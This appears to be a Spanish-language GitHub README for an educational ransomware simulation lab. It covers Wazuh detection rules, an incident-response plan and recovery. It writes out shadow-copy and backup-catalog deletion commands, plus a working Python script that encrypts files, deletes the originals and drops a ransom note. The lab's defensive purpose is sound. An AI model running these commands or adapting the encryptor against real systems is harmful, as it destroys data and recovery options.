# 🔐 Ransomware Simulation & Incident Response Lab

> **Entorno educativo de simulación de ataque de ransomware con detección en Wazuh SIEM, respuesta a incidentes y recuperación completa.**

---
## Tecnologías


---
## 📋 Tabla de Contenidos

- [Descripción General](#descripción-general)
- [Infraestructura](#infraestructura)
- [Cadena de Ataque — MITRE ATT&CK](#cadena-de-ataque--mitre-attck)
- [Fase 1 — Pre-cifrado](#fase-1--pre-cifrado)
- [Fase 2 — Cifrado de Archivos T1486](#fase-2--cifrado-de-archivos-t1486)
- [Fase 3 — Detección en Wazuh](#fase-3--detección-en-wazuh)
- [Fase 4 — Respuesta al Incidente](#fase-4--respuesta-al-incidente)
- [Fase 5 — Recuperación](#fase-5--recuperación)
- [Reporte Ejecutivo del Incidente](#reporte-ejecutivo-del-incidente)
- [Hallazgos y Gaps de Cobertura](#hallazgos-y-gaps-de-cobertura)
- [Reglas Custom de Wazuh](#reglas-custom-de-wazuh)

---

## Descripción General

Este laboratorio simula una cadena de ataque completa de ransomware en un entorno controlado, cubriendo desde la fase de preparación del atacante (destrucción de backups y shadow copies) hasta el cifrado de archivos, su detección por un SIEM, la respuesta al incidente y la recuperación final.

El objetivo es demostrar capacidades de **detección, análisis y respuesta** propias de un analista SOC:

- Simulación técnica de comportamiento de ransomware real (WannaCry, Olympic Destroyer, LockBit)
- Detección via telemetría de Sysmon correlacionada en Wazuh
- Creación de reglas custom mapeadas a MITRE ATT&CK
- Identificación de gaps de cobertura en la configuración del agente
- Proceso completo de respuesta a incidentes y recuperación
- Reporte ejecutivo documentando el ciclo completo

> ⚠️ **Proyecto educativo. Todos los scripts y técnicas se ejecutaron en un entorno aislado sin acceso a redes de producción.**

---

## Infraestructura

```
┌─────────────────────────────────────────────────────────────────┐
│                     RED INTERNA (NAT)                           │
│                                                                 │
│  ┌──────────────────┐         ┌──────────────────────────────┐  │
│  │  Windows 10 Pro  │         │       Ubuntu 22.04 LTS       │  │
│  │  (VÍCTIMA)       │────────▶│       (ANÁLISIS)             │  │
│  │                  │         │                              │  │
│  │ • Sysmon 15.21   │         │ • Wazuh Manager 4.14.7       │  │
│  │ • Wazuh Agent    │         │ • Wazuh Indexer 4.14.7       │  │
│  │ • Python 3.12    │         │ • Wazuh Dashboard 4.14.7     │  │
│  │ • Atomic Red Team│         │   (Stack en Docker)          │  │
│  │                  │         │                              │  │
│  │ IP: 192.168.64.135│        │ IP: 192.168.64.130           │  │
│  └──────────────────┘         └──────────────────────────────┘  │
└─────────────────────────────────────────────────────────────────┘
```

| Componente | Versión | Rol |
|---|---|---|
| Windows 10 Pro | 22H2 (19045) | Endpoint víctima |
| Sysmon | 15.21 | Telemetría de endpoint |
| Wazuh Agent | 4.14.7 | Reenvío de eventos al SIEM |
| Atomic Red Team | 2.1.0 | Simulación de T1489/T1490 |
| Python | 3.12.0 | Script de cifrado/descifrado T1486 |
| Wazuh Stack | 4.14.7 | SIEM (Manager + Indexer + Dashboard) |

---

## Cadena de Ataque — MITRE ATT&CK

```
[T1489] Stop Service
sc.exe stop spooler
      │
      ▼
[T1490] Inhibit System Recovery
vssadmin delete shadows /all /quiet
wbadmin delete catalog -quiet
      │
      ▼
[T1486] Data Encrypted for Impact
ransomware_sim.py → .txt → .txt.locked
README_RECOVER.txt dropeado en cada carpeta
      │
      ▼
DETECCIÓN WAZUH → Rules 100200 / 100210
      │
      ▼
RESPUESTA → RECUPERACIÓN
ransomware_decrypt.py
```

| Técnica | ID | Táctica | Herramienta | Detección |
|---|---|---|---|---|
| Stop Service | T1489 | Impact | Atomic Red Team T1489-1 | ✅ Rules 92032/92052 |
| Delete Volume Shadow Copies | T1490 | Impact | Atomic Red Team T1490-1 | ✅ Rules 92032/92052 |
| Delete Backup Catalog | T1490 | Impact | Atomic Red Team T1490-3 | ✅ Rules 92032/92052 |
| Data Encrypted for Impact | T1486 | Impact | Script Python Fernet/AES | ✅ Rules 100200/100210 |

---

## Fase 1 — Pre-cifrado

### T1489 — Stop Service

```powershell
Invoke-AtomicTest T1489-1
# sc.exe stop spooler
```

**Cadena de proceso capturada:**
```
powershell.exe
  └─ cmd.exe /c sc.exe stop spooler
       └─ sc.exe stop spooler
```





> **Gap documentado:** El Event ID 7036 (Service Control Manager) no llegó a Wazuh porque el canal `System` no está configurado en el agente. La telemetría de Sysmon (EID 1) capturó la ejecución; el efecto fue confirmado directamente en el endpoint (`Status: Stopped`).

---

### T1490 — Inhibit System Recovery

**T1490-1 — Delete Volume Shadow Copies:**
```powershell
Invoke-AtomicTest T1490-1
# vssadmin.exe delete shadows /all /quiet
```





**T1490-3 — Delete Backup Catalog:**
```powershell
Invoke-AtomicTest T1490-3
# wbadmin delete catalog -quiet
```



> **Hallazgo:** Las tres técnicas de T1489/T1490 fueron detectadas por reglas genéricas de shell (92032/92052), no por reglas específicas de la táctica. Ver sección [Gaps de Cobertura](#hallazgos-y-gaps-de-cobertura).

---

## Fase 2 — Cifrado de Archivos T1486

### Estructura del entorno

```
C:\SimLab\
├── ransomware_sim.py
├── ransomware_decrypt.py
├── decrypt_key.key
└── Documentos\
    ├── Finanzas\    → reporte_q1.txt.locked, reporte_q2.txt.locked
    ├── RRHH\        → empleado_001.txt.locked, empleado_002.txt.locked
    └── Proyectos\   → proyecto_alpha.txt.locked, proyecto_beta.txt.locked
```

### Script de Cifrado — `ransomware_sim.py`

```python
import os
from cryptography.fernet import Fernet

TARGET_FOLDER = r"C:\SimLab\Documentos"
KEY_FILE      = r"C:\SimLab\decrypt_key.key"
EXT_LOCKED    = ".locked"
RANSOM_NOTE   = "README_RECOVER.txt"

RANSOM_TEXT = """
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
              TODOS TUS ARCHIVOS HAN SIDO CIFRADOS
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
Todos los archivos de este equipo han sido cifrados con
algoritmo AES-256. Sin la clave de descifrado en nuestro
poder, no podras recuperarlos.

Para recuperar tus archivos contacta a:
  recovery@[redacted].onion

Identificador unico de victima: SIM-LAB-2026

-- ESTE ES UN ENTORNO DE SIMULACION DE LABORATORIO --
-- Este script fue creado con fines educativos     --
"""

def main():
    print("[*] Ransomware Simulator - Solo para uso educativo en entorno de laboratorio")
    print(f"[*] Objetivo: {TARGET_FOLDER}")
    key = Fernet.generate_key()
    with open(KEY_FILE, "wb") as kf:
        kf.write(key)
    print(f"[+] Clave generada y guardada en: {KEY_FILE}")
    fernet = Fernet(key)
    files_encrypted = 0
    folders_noted = set()
    for root, dirs, files in os.walk(TARGET_FOLDER):
        for filename in files:
            if filename == RANSOM_NOTE or filename.endswith(EXT_LOCKED):
                continue
            filepath = os.path.join(root, filename)
            locked_path = filepath + EXT_LOCKED
            try:
                with open(filepath, "rb") as f:
                    data = f.read()
                encrypted_data = fernet.encrypt(data)
                with open(locked_path, "wb") as f:
                    f.write(encrypted_data)
                os.remove(filepath)
                files_encrypted += 1
                print(f"  [CIFRADO] {filepath}  -->  {os.path.basename(locked_path)}")
            except Exception as e:
                print(f"  [ERROR] {filepath}: {e}")
        if root not in folders_noted:
            note_path = os.path.join(root, RANSOM_NOTE)
            with open(note_path, "w", encoding="utf-8") as nf:
                nf.write(RANSOM_TEXT)
            folders_noted.add(root)
            print(f"  [NOTA]    {note_path}")
    print(f"\n[+] Simulacion completa. Archivos cifrados: {files_encrypted}")
    print(f"[!] Clave de descifrado retenida en: {KEY_FILE}")

if __name__ == "__main__":
    main()
```

**Ejecución:**
```powershell
& "C:\Program Files\Python312\python.exe" C:\SimLab\ransomware_sim.py
```







---

## Fase 3 — Detección en Wazuh

### Reglas custom creadas para T1486

```xml
<rule id="100200" level="12">
  <if_group>sysmon</if_group>
  <field name="win.system.eventID">^11$</field>
  <field name="win.eventdata.targetFilename" type="pcre2">\.locked$</field>
  <description>T1486 - Ransomware: archivo cifrado creado (.locked) por python.exe</description>
  <mitre><id>T1486</id></mitre>
  <group>ransomware,t1486,sysmon_eid11,windows</group>
</rule>

<rule id="100210" level="12">
  <if_group>sysmon</if_group>
  <field name="win.system.eventID">^23$</field>
  <field name="win.eventdata.image" type="pcre2">python\.exe$</field>
  <description>T1486 - Ransomware: archivo original eliminado tras cifrado por python.exe</description>
  <mitre><id>T1486</id></mitre>
  <group>ransomware,t1486,sysmon_eid23,windows</group>
</rule>
```

### Resultado — 13 alertas en Wazuh

**Filtro DQL:**
```
rule.id: 100200 OR rule.id: 100210
```







| Rule ID | EID Sysmon | Descripción | Level | Tactic | Hits |
|---|---|---|---|---|---|
| 100200 | 11 FileCreate | Archivo .locked creado | 12 | Impact | 6 |
| 100210 | 23 FileDelete | Original eliminado tras cifrado | 12 | Impact | 7 |

### Modificaciones en Sysmon requeridas

El Event ID 23 estaba **completamente comentado** en la config base (SwiftOnSecurity). Se descomentó y se agregó la regla para `python.exe`. El EID 11 requirió agregar la extensión `.locked` al include.

```powershell
C:\Sysmon\Sysmon64.exe -c C:\Sysmon\sysmonconfig-export.xml
# Configuration updated.
```

---

## Fase 4 — Respuesta al Incidente

### Plan de Acción

#### Etapa 1 — Identificación y Contención (0–15 min)

| Paso | Acción |
|---|---|
| 1.1 | Verificar alertas en Wazuh (`rule.id: 100200 OR 100210`) |
| 1.2 | Confirmar endpoint afectado (`agent.name`, `agent.ip`) |
| 1.3 | **Aislar el endpoint de la red** |
| 1.4 | Preservar snapshot/imagen forense antes de actuar |
| 1.5 | Identificar el proceso responsable del cifrado |
| 1.6 | Terminar el proceso si sigue activo (`Stop-Process -Name python`) |

#### Etapa 2 — Análisis y Alcance (15–60 min)

```
# Todos los eventos del endpoint en la ventana del incidente
agent.name: "Vuln-SOC" AND timestamp: [2026-08-24T00:50:00 TO 2026-08-24T01:10:00]

# Técnicas de pre-ransomware
data.win.eventdata.commandLine: *delete*shadows* OR data.win.eventdata.commandLine: *wbadmin*catalog*

# Proceso cifrador
data.win.system.eventID: 1 AND data.win.eventdata.image: *python*
```

| Paso | Acción | Herramienta |
|---|---|---|
| 2.1 | Determinar extensión del cifrado | Wazuh EID 11 filter |
| 2.2 | Verificar si se borraron shadow copies | Wazuh vssadmin filter |
| 2.3 | Verificar servicios detenidos | Wazuh sc.exe filter |
| 2.4 | Buscar persistencia | Sysmon EID 13/1 |
| 2.5 | Revisar movimiento lateral | Sysmon EID 3 |

#### Etapa 3 — Erradicación

```
□ Terminar procesos relacionados con el ransomware
□ Eliminar el script cifrador del sistema
□ Revocar credenciales comprometidas (si aplica)
□ Revertir cambios de persistencia
□ Restaurar servicios detenidos por T1489
□ Restablecer System Restore (si fue deshabilitado)
□ Escaneo antimalware completo
```

#### Etapa 4 — Recuperación

```
□ Restaurar archivos desde backup offline (si disponible)
□ Si se tiene la clave: ejecutar script de descifrado
□ Verificar integridad de archivos restaurados
□ Reconectar a la red (solo si erradicación confirmada)
□ Monitoreo intensivo 72 horas post-recuperación
```

#### Etapa 5 — Lecciones Aprendidas

```
□ Documentar timeline completo del incidente
□ Identificar gaps de detección
□ Proponer mejoras a reglas
□ Actualizar runbook
□ Comunicar a partes interesadas
```

---

## Fase 5 — Recuperación

### Script de Descifrado — `ransomware_decrypt.py`

```python
import os
from cryptography.fernet import Fernet

TARGET_FOLDER = r"C:\SimLab\Documentos"
KEY_FILE      = r"C:\SimLab\decrypt_key.key"
EXT_LOCKED    = ".locked"
RANSOM_NOTE   = "README_RECOVER.txt"

def main():
    print("[*] Ransomware Decryptor - Fase de recuperacion del incidente")
    if not os.path.exists(KEY_FILE):
        print(f"[!] No se encontro la clave en {KEY_FILE}. Imposible descifrar.")
        return
    with open(KEY_FILE, "rb") as kf:
        key = kf.read()
    fernet = Fernet(key)
    print(f"[+] Clave cargada desde: {KEY_FILE}")
    files_restored = 0
    for root, dirs, files in os.walk(TARGET_FOLDER):
        for filename in files:
            if filename == RANSOM_NOTE:
                os.remove(os.path.join(root, filename))
                print(f"  [NOTA ELIMINADA] {os.path.join(root, filename)}")
                continue
            if not filename.endswith(EXT_LOCKED):
                continue
            locked_path   = os.path.join(root, filename)
            original_path = locked_path[:-len(EXT_LOCKED)]
            try:
                with open(locked_path, "rb") as f:
                    encrypted_data = f.read()
                decrypted_data = fernet.decrypt(encrypted_data)
                with open(original_path, "wb") as f:
                    f.write(decrypted_data)
                os.remove(locked_path)
                files_restored += 1
                print(f"  [RESTAURADO] {os.path.basename(locked_path)}  -->  {os.path.basename(original_path)}")
            except Exception as e:
                print(f"  [ERROR] {locked_path}: {e}")
    print(f"\n[+] Recuperacion completa. Archivos restaurados: {files_restored}")

if __name__ == "__main__":
    main()
```

```powershell
& "C:\Program Files\Python312\python.exe" C:\SimLab\ransomware_decrypt.py
```



